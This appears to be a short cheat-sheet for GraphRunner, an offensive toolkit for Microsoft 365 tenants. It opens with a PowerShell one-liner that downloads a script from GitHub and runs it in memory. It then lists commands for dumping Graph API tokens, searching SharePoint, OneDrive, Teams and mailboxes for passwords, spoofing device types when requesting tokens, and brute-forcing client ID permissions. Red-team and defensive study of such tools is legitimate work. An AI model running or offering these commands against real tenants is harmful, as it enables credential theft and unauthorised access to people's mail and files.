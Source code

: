 # GraphRunner

## Command to execute: IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1') | iex

### Commands:

 - List-GraphRunnerModules (Lists all modules of graphrunner)

 - Get-GraphTokens -UserPasswordAuth (Authenticate with valid credentials to open a graph API session)

 - Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password' (Search for files on OneDrive and Sharepoint containing the string "password" by using the tokens we dumped from the Graph API session)

 - Invoke-SearchTeams -Tokens $tokens -SearchTerm password (Search all Teams channels with the specific term that are readable by our user)

 - Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 40 (Searches the mailbox of our current user)

 - Get-GraphTokens -Device AndroidMobile -Browser Android (Emulates other devices when requesting tokens.)

 - Invoke-BruteClientIDAccess -domain DOMAIN.LOCAL -refreshToken $tokens.refresh_token (Check for non-default permissions that our user might have)



